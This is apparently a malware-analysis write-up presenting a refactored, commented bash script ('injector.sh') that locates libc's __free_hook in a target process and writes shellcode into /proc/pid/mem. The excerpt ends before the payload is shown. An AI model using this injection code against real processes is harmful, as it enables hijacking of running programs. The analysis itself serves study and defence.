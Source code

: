 ## Refactor/Deobfuscate/Comment Shellscript /tmp/.hax/injector.sh
This is the shellscript after refactoring/deobfuscation and adding a few comments. The amount of obfuscation is not too bad, so the refactoring can be easily done with a text editor of your choice.
```bash
#!/bin/bash

set -e

bigEndianToLittleEndian() {
        # transform bytes (param $1) from big endian to little endian
        for i in $(seq 0 7); do 
                curr=$(($1 >> $i*8 & 0xff))
                packed="$packed$(printf '\\x%02x' $curr)"
        done

        echo $packed
}

getRVAForSymbol() {
    # nm - list symbols from object files
        # -D - dynamic
    echo $((0x$(nm -D "$1" | sed 's/@.*//' | grep -E " $2$" | cut -d ' ' -f1)))
}

patchCodeIntoPidVmemVA() {
    # write shellcode (param $3) into vmem of target pid (param $1) at offset/VA (param $2)
    echo -ne "$3" | dd of="/proc/$1/mem" bs=1 "seek=$2" conv=notrunc 2>/dev/null
}

searchAndReplace() {
    code="$1"
    from=$(echo "$2" | sed 's/\\/\\\\/g')
    to=$(echo $3 | sed 's/\\/\\\\/g')

    echo $code | sed "s/$from/$to/g"
}

debase64gunzip() {
    echo "$1" | base64 -d | gzip -d
}

main() {
    # function param $1 is shell script param $1
        # from usage (/proc/$var) its likely the pid of the
        # target process to inject into
    pid="$1"

        # return first line in /proc/$pid/maps for libc.*so
    firstLineLibcInMaps=$(grep -E "/libc.*so$" "/proc/$pid/maps" | head -n 1 | tr -s ' ')

        # parse base address of libc in target vmem, interprete it as hex (yields decimal base addr)
    libcBaseAddr=$((0x$(cut -d '-' -f1 <<< "$firstLineLibcInMaps")))

        # parse filesystem path for libc in target vmem map
    libcBaseFsPath=$(cut -d ' ' -f6 <<< "$firstLineLibcInMaps")

        # find offset of symbol __free_hook in libcFsPath (debase64gunzip of H4sIAAAAAAAAA4uPTytKTY3PyM/PBgDwEjq3CwAAAA==)
        # add offset to base addr for VA of __free_hook in target vmem
    VA_free_hook=$((libcBaseAddr+$(getRVAForSymbol $libcBaseFsPath $(debase64gunzip H4sIAAAAAAAAA4uPTytKTY3PyM/PBgDwEjq3CwAAAA==))))
```